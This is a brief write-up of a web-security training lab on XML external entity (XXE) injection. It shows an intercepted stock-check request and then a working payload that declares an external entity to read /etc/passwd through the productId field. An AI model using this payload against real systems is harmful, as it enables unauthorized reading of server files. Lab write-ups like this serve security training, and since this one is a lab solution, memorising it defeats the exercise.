

# Exploiting XXE using external entities to retrieve files

## This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

## To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

---

### step 1

go to product page intercept send to repeater

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

### step2

add _<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>_ and in product id use &xxe;

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```



lab solved
